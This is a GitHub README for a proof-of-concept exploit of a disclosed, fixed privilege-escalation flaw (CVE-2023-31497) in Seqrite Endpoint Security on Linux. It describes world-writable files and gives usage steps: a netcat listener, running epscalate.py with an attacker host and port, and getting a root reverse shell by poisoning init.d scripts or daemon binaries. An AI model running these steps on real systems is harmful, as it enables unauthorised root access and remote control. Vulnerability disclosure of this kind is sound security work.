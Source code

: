 # EPScalate
An elevation of privilege vulnerability in QuickHeal's Seqrite Enterprise Endpoint Security Solution (EPS). The vulnerability has been assigned a CVE ID of CVE-2023-31497.

https://user-images.githubusercontent.com/39941993/230790056-87157751-b96c-49a6-81df-bf3126acfbd6.mp4

### Vendor and Product Details
- __Vendor__: Quick Heal Technologies Limited
- __Product__: Seqrite Endpoint Security (EPS)
- __Product Homepage__: https://www.seqrite.com/endpoint-security/seqrite-endpoint-security
- __Affected Versions__: Affects all versions prior to v8.0.

### Vulnerability Details
Seqrite endpoint security with its default installation installs to `/usr/lib/Seqrite/` with very weak directory and file permissions granting a local user full read/write permission to the contents of the directory. In addition, the installation procedure installs its startup scripts to `/etc/init.d/` which are world writable. This enables any low-privilege user on the system to escalate privileges to root.

The exploit makes use of 2 different vulnerabilities introduced by the software to elevate privileges on the system. Firstly, the fact that the application uses scripts in `/etc/init.d/` to start its scan processes which can be written to by any user. Secondly, the application makes use shared objects to dynamically load position-independent code (PIC) during runtime. As a matter of fact, all of the executable shared object files are world writable. Lastly, the application binaries used for the daemon process are world writable which basically means any non-privileged user could overwrite the scanner binaries with a reverse shell binary to execute arbitrary code as `root`.

### Exploit Usage
The exploit is a simple Python file that aids in the exploitation of the vulnerability.

Steps:
1. On the attacker machine, start a listener using netcat (`nc -lvp <port>`) or metasploit (`multi/handler`).
2. Copy/download the `epscalate.py` and `shellcode.c` file onto the target system.
3. Run the python file with proper arguments (`python3 epscalate.py -H 192.168.0.103:9999 -I`).
4. Wait for the AV to reload / the system to reboot.
5. The reverse connection to your listener can confirm code execution as root.

Exploit help:
```s
$ python epscalate.py -h

    EPSCALATE - PoC for privesc in Seqrite EPS
                ~ 0xInfection

usage: epscalate.py -H <host>:<port> <technique_flag>

options:
  -h, --help            show this help message and exit
  -H HOSTPORT, --hostport HOSTPORT
                        The IP and port of the listening attacker machine in format of <ip>:<port>
  -B, --daemon-binaries
                        Overwrite the main daemon binaries to escalate privileges.
  -I, --initd-scripts   Posion /etc/init.d/ bash startup scripts with a reverse shell to escalate privileges.
```

### Support
The exploit has been tested on all Debian and Ubuntu-based variant operating systems.

### License & Credits
The exploit code has been published under the Apache 2.0 License.
The vulnerability has been disclosed to the vendor and has been remediated at the time of publishing the vulnerability.

Vulnerability and exploit credits: Pinaki Mondal ([0xInfection](https://twitter.com/0xinfection)).
